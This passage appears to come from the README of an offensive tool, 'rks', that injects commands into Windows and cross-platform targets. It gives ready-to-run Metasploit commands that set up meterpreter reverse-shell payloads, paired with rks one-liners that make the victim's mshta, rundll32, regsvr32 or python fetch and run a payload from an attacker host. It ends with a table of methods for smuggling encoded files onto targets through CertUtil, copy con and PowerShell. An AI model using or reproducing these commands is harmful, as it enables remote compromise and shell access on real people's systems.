 Execute the payload with `mshta.exe` using `metasploit-framework` exploit module `exploit/windows/misc/hta_server`.

```
$ sudo msfconsole -qx "use exploit/windows/misc/hta_server; set target 2; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set srvhost <server_IP>; set srvport <server_PORT> run"

$ rks -c "mshta.exe http://<attacker_IP>:<attacker_PORT>/payload.hta" -m dialogbox
```

Execute the payload with `rundll32.exe` using `metasploit-framework` exploit module `exploit/windows/smb/smb_delivery`.

```
$ sudo msfconsole -qx "use exploit/windows/smb/smb_delivery; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set file_name payload.dll; set share staging; run"

$ rks -c "rundll32.exe \\<attacker_IP>\staging\payload.dll,0" -m dialogbox
```

Execute the payload with `regsvr32.exe` using `metasploit-framework` exploit module `exploit/multi/script/web_delivery`.

```
$ sudo msfconsole -qx "use exploit/multi/script/web_delivery; set target 3; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set srvport <server_PORT>; set uripath payload; run"

$ rks -c "regsvr32 /s /n /u /i://http://<attacker_IP>:<attacker_PORT>/payload.sct scrobj.dll" -m dialogbox
```

#### Cross Platform

Execute and implant with `python` using `metasploit-framework` exploit module `exploit/multi/script/web_delivery`.

```
$ sudo msfconsole -qx "use exploit/multi/script/web_delivery; set target 0; set payload python/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; set srvhost <server_IP>; set srvport <server_PORT>; set uripath payload; run"

$ rks -c "python -c \"<payload>\""
```

### 0x03 - File Transfer

There are 11 file transfer methods in total.

|     Method     |      Platform     | Description |
| -------------- | ----------------- | ----------- |
|   `pwshb64`    | Windows and Linux | Encodes the file into base64 then decodes it with powershell. |
|    `cmdb64`    |      Windows      | Uses `copy con` to output the encoded base64 file's content then decodes it with `CertUtil.exe`. |
|    `nixb64`    |       Unix        | Decodes base64 content into a file. |
|   `outfile`    | Windows and Linux | Uses `Out-File` cmdlet to output the text file. |
|  `outfileb64`  |      Windows      | Uses `Out-File` cmdlet to output the encoded base64 file's content then decodes it with `CertUtil.exe`. |
|   `copycon`    |      Windows      | Uses `copy con` command to output the text file. |
|   `pwshhex`    | Windows and Linux | Encodes the file into hexadecimal then decodes it with powershell. |
|    `cmdhex`    |      Windows      | Outputting a hex encoded one liner in a variable then decodes it with `CertUtil.exe`. |
|  `copyconhex`  |      Windows      | Uses `copy con` to output the encoded hexdump file's content then decodes it with `CertUtil.exe`. |